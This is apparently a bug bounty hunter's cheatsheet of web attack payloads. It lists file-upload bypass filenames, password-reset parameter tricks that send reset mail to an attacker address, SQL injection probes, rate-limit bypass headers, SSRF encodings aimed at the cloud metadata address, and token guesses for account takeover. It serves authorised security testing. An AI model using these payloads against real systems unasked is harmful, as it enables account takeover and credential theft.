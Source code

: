 # Bounty Hunter Cheatsheet
---

## File Upload

| Filename | Description |
|----------|-------------|
|.htaccess|htaccess rules|
|file.svg|svg for xss|
|file.SVg|case insensitive|
|file.png.svg|double extension|
|file.php%00.png|null byte|
|file.png' or '1'='1|sql injection|
|../../file.png|directory traversal|
|file.'svg|invalid extension|

## Password Reset

### Parameter payloads

| Payload | Description |
|----------|-------------|
|email=victim@xyz.tld&email=hacker@xyz.tld|double parameter|
|email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld|carbon copy parameter|
|email=victim@xyz.tld,hacker@xyz.tld|colon separator|
|email=victim@xyz.tld%20hacker@xyz.tld|space separator|
|email=victim@xyz.tld\|hacker@xyz.tld|pipe separator|
|email=victim|no domain or tld|
|email=victim@xyz|no tld|
|{"email":["victim@tld.xyz","hacker@tld.xyz"]}|json multiple email table|

### Related other cases

| Technique | Goal |
|----------|-------------|
|reset token modification|account takeover|
|body response token leak|account takeover|
|token guess or bruteforce (timestamp, userid)|account takeover|
|modify header host domain|host reflected in mail and steal token|

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`

```
username: '--' / "--"
password: '--' / "--"
```

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user
- Check reverse search in API
> GET /api/account?email=X

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

- Check if email links are in HTTP
- Check if old password is asked when changing password
